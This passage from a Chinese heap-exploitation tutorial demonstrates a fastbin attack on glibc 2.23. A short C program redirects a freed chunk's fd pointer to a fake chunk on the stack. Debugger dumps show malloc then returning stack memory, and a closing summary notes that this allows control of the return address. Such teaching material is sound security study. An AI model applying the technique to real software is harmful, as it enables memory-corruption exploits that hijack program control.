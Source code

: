 ```
    stack_chunk.size=0x21;
    chunk1=malloc(0x10);
    
    free(chunk1);
    
    *(long long *)chunk1=&stack_chunk;
    malloc(0x10);
    chunk_a=malloc(0x10);
    return 0;
}
```
通过gdb调试可以看到我们首先把 chunk1 的 fd 指针指向了 stack_chunk
```
0x602000:	0x0000000000000000	0x0000000000000021 <=== chunk1
0x602010:	0x00007fffffffde60	0x0000000000000000
0x602020:	0x0000000000000000	0x0000000000020fe1 <=== top chunk
```
之后第一次 malloc 使得 fastbin 链表指向了 stack_chunk，这意味着下一次分配会使用 stack_chunk 的内存进行
```
0x7ffff7dd1b20 <main_arena>:	0x0000000000000000 <=== unsorted bin
0x7ffff7dd1b28 <main_arena+8>:  0x00007fffffffde60 <=== fastbin[0]
0x7ffff7dd1b30 <main_arena+16>:	0x0000000000000000	
```
最终第二次malloc返回值为0x00007fffffffde70也就是stack_chunk
```
   0x400629 <main+83>        call   0x4004c0 <malloc@plt>
 → 0x40062e <main+88>        mov    QWORD PTR [rbp-0x38], rax
   $rax   : 0x00007fffffffde70
   
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x /home/Ox9A82/tst/tst
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/Ox9A82/tst/tst
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/Ox9A82/tst/tst
0x0000000000602000 0x0000000000623000 0x0000000000000000 rw- [heap]
0x00007ffff7a0d000 0x00007ffff7bcd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7bcd000 0x00007ffff7dcd000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dcd000 0x00007ffff7dd1000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd1000 0x00007ffff7dd3000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so
0x00007ffff7dd3000 0x00007ffff7dd7000 0x0000000000000000 rw- 
0x00007ffff7dd7000 0x00007ffff7dfd000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7fdb000 0x00007ffff7fde000 0x0000000000000000 rw- 
0x00007ffff7ff6000 0x00007ffff7ff8000 0x0000000000000000 rw- 
0x00007ffff7ff8000 0x00007ffff7ffa000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffa000 0x00007ffff7ffc000 0x0000000000000000 r-x [vdso]
0x00007ffff7ffc000 0x00007ffff7ffd000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffd000 0x00007ffff7ffe000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so
0x00007ffff7ffe000 0x00007ffff7fff000 0x0000000000000000 rw- 
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

```


### 小总结
通过 HOS 我们可以把 fastbin chunk 分配到栈中，从而控制返回地址等关键数据。要实现这一点我们需要劫持fastbin 中 chunk 的 fd 域，把它指到栈上，当然同时需要栈上存在有满足条件的size值。
